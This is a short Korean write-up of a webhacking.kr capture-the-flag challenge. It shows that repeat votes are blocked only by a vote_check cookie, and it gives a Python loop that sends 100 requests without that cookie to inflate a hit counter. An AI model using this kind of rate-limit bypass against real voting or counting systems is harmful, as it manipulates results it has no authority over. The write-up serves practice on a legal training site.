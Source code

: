 # [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**


***


# **Description**

![](images/2022-01-03-13-14-27.png)


# **Write-Up**

항목을 클릭하면 Hit가 올라간다.

![](images/2022-01-03-13-14-39.png)

다시 한번 클릭하면 you already voted라는 메세지가 뜨면서 Hit는 올라가지 않는다. 쿠키를 확인하니, vote_check이라는 값 때문인 것 같다.

![](images/2022-01-03-13-14-42.png)

클릭 시 hit라는 변수에 NAME값을 전달하여 보낸다.

![](images/2022-01-03-13-14-47.png)

자신의 아이디를 100번 클릭하자. 물론 Cookie에는 vote_check는 없어야 한다.

```python
import urllib.request

CHALLENGE   = 'https://webhacking.kr/challenge/code-5/?hit=2honrr'
SESSION_ID  = 'h83e8tbo50nv3mkbkjm99tc80b'
headers     = {'Cookie':'PHPSESSID='+SESSION_ID}
for i in range(100):
    request     = urllib.request.Request(url=CHALLENGE, headers=headers)
    response    = urllib.request.urlopen(request)
```

Hit가 100이 되었을 때, 클릭하면 점수를 획득할 수 있다.

![](images/2022-01-03-13-14-58.png)